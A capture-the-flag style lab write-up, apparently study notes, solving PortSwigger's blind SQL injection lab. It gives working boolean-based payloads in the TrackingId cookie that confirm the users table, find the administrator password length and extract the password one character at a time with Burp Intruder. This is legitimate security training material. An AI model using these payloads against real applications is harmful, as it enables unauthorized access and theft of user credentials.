# Blind SQL injection with conditional responses

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---
#blind_sql
**NOTE**: some important SQL query



step 1

open lab click to any category you will get `Welcome back!` message



send `/filter?category=lifestyle` to repeater
send request you will get `Welcome back!` message



step 2

In TrackingId=xyzjjgjjgj(any random text present) add  `' AND '1'='1` 
and send request
you will get `Welcome back!` because  *'1'='1*  is true



step 3

add payload
`' AND '1'='2`
you will  not get `Welcome back!` because  *'1'='2*  not true



step 4

add payload
`' AND (SELECT 'a' FROM users LIMIT 1)='a`
send request
you will get `Welcome back!` *SELECT 'a' FROM users LIMIT 1* it will return *a* so *'a'='a* is true



step 5

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
you will get `Welcome back!`



step 6

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
you will get `Welcome back!`
it means password is greater than 1



step 7

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`
you will not get `Welcome back!`
it means password is not greater than 20



step 8

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a`
you will get `Welcome back!`
it means password is greater than 19 
so actual size of password is 20, you can use intruder to find out size of password



step 9

add paload
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
you will not get `Welcome back!`



step 10

in intruder
add payload
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
click on attack



in payload setting
payload type Simple list
and in setting Grep-Match clear first then add `Welcome back!`



once attack is finished
you will see `1` in `welcome back` note down that alphabet or digit



step 11

since you have password length 20 so you have to attack 20 times
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` => 0 (first alphabet)
`' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` => l (2nd alphabet)
perform 3,4,5,..... to 20
`' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='§a§` => m (20th alphabet)

note down each password `0lujlxuejvv4qcjy82am`

step 12

To solve the lab
login using `administrator` as username and password is `0lujlxuejvv4qcjy82am`



___
another method to save repetitive task







payload 1 is the position and payload 2 is alphabet or digit 
like 7 is first 20 is t
`7lukwn1c04v1bpkdf36t`

